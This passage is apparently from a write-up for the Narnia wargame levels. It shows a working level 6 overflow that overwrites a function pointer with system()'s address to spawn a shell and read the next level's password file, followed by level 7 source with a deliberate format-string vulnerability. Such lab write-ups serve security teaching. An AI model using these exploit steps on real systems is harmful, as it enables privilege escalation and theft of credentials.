 `0x61413561` is in little endian format. If we translate it to a string we would get:
```rust
0x61413561 ---> 0x61 0x35 0x41 0x61 --> a5Aa
```
This string starts at byte 16 of our 20 byte pattern string. This means that the last 4 bytes of the second argument will overwrite `EAX`. 
Now, let's find out the memory location of system() command, to make the program execute `system(sh)`.

```ruby
(gdb) p system
$3 = {int (const char *)} 0xf7c48170 <__libc_system>
```

The `system()` function is located at `0xf7c48170`, so we should overwrite EAX with this address. When the program calls `puts()`, it outputs the first argument to the string, meaning that the first argument is inserted into puts. Now after we overwrite and call `system()` we would like to pass `sh` into it. So the first argument will be `sh;AAAAA` and the second one will be `B*15\x70\x81\xc4\xf7` .

```ruby
narnia6@gibson:/narnia$ ./narnia6 $(echo -n -e "sh;AAAAA\x70\x81\xc4\xf7 B")
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
YY4F9UaB60
```


## Level 7

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
  
int goodfunction();
int hackedfunction();
  
int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();
  
        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);
  
        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);
  
        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;
  
        snprintf(buffer, sizeof buffer, format);
  
        return ptrf();
}
  
int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
```